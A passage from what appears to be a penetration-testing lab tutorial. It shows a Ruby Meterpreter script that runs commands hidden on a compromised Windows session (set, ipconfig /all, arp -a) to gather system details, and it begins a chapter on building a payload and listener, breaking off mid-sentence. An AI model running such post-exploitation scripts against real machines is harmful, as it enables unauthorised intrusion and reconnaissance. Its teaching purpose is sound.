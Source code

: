 getinfo(client)
 
 
 
- Now run the script:
 
meterpreter> run helloworld
 
 
- We can expand it by adding actual system commands to the script, lets look at how we can do this.
 
 
def list_exec(session,cmdlst)
    print_status("Running Command List ...")
    r=''
    session.response_timeout=120
    cmdlst.each do |cmd|
       begin
          print_status "running command #{cmd}"
          r = session.sys.process.execute("cmd.exe /c #{cmd}", nil, {'Hidden' => true, 'Channelized' => true})
          while(d = r.channel.read)
 
             print_status("#{d}")
          end
          r.channel.close
          r.close
       rescue ::Exception => e
          print_error("Error Running Command #{cmd}: #{e.class} #{e}")
       end
    end
 end
 
commands = [ "set",
    "ipconfig  /all",
    "arp -a"]
 
list_exec(client,commands)
 
 
 
- Run the script:
 
meterpreter> run helloworld
  





################################################
# Chapter 4: Writing Meterpreter Resource Files #
################################################


- In this lab we are going to create a binary payload via msfpayload then craft a .rc file that automates the 
process to setup the multi handler listener.
 
- We will start off by creating the msfvenom
